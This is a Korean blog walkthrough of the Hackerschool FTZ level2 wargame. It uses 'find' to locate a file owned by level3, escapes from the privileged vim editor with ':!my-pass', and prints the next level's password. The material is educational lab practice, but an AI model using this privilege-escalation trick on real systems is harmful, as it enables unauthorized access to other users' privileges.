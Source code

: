 ```yaml
---
layout: post
title: "Hackerschool FTZ-level2"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/22
---
```


```bash
login as: level2 
level2@~~~~'s password: 
[level2@ftz level2]$
```





level2/hacker or cracker로 접속하자.





```bash
[level2@ftz level2]$ ls 
hint  public_html  tmp 
[level2@ftz level2]$ cat hint 
```



텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...




바로 hint를 읽었다. 



```bash
[level2@ftz level2]$ find / -user level3 2> /dev/null 
/usr/bin/editor 
[level2@ftz level2]$
```





find 함수로 level3의 권한을 가진 파일을 읽었다. 





```bash
[level2@ftz level2]$ cd /usr/bin 
[level2@ftz bin]$ ./editor





~                              VIM - Vi IMproved 
~ 
~                               version 6.1.320 
~                           by Bram Moolenaar et al. 
~                 Vim is open source and freely distributable 
~ 
~                        Help poor children in Uganda! 
~                type  :help iccf       for information 
~ 
~                type  :q               to exi
~                type  :help  or    for on-line help 
~                type  :help version6   for version info 

~

```



vi 편집기가 실행되었다. vi편집기는 리눅스 환경에서 코딩을 할 때 자주 사용하는 편집기이다. 이 vi편집기의 특이한 점은, 편집기에서 리눅스 명령어를 실행시킬 수 있다는 것이다.





```bash
~                              VIM - Vi IMproved 
~ 
~                               version 6.1.320 
~                           by Bram Moolenaar et al. 
~                 Vim is open source and freely distributable 
~ 
~                        Help poor children in Uganda! 
~                type  :help iccf       for information 
~
~                type  :q               to exit 
~                type  :help  or    for on-line help 
~                type  :help version6   for version info 
~ 
~ 
~ 
~ 
~ 

:!my-pass

```



이 프로그램은 level3의 권한을 가지고 있으므로, my-pass를 실행시키면 level3의 답을 알아낼 수 있을 것이다.



```bash

ESC!my-pass

```



여기서 !는 이 뒤의 명령어를 실행한다는 의미를 가지고 있다.





```bash

Level3 Password is "can you fly?". 





shell returned 37 



Hit ENTER or type command to continue

```





level3의 정답이 나왔다.



level3's passworld:"can you fly?"

